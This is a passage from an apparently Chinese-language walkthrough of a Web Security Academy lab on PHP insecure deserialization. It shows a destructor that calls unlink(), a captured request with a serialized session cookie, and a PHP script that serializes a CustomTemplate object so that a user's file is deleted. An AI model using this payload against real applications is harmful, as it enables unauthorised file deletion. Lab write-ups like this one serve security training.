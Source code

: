 ```php
    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

这里的魔术方法 ，析构函数里有 `unlink()` 删除函数

再抓登录 wiener 账号后 删除账户的数据包

```http
GET /my-account?id=wiener HTTP/2
Host: 0aa600ba043e9571821e839800fb0082.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJibnNsMmtxdHZydmJ6Mnk4a3ZrbmhzbDU1cDg1OWFxYiI7fQ%3d%3d
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0aa600ba043e9571821e839800fb0082.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

解码后查看查看 session

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"bnsl2kqtvrvbz2y8kvknhsl55p859aqb";}
```

无关紧要，这里构造 pop 链，很简单

```php
<?php
class CustomTemplate {
    private $template_file_path="/home/carlos/morale.txt";
    private $lock_file_path="/home/carlos/morale.txt";
}   
$p = new CustomTemplate();
echo serialize($p);
?>
```

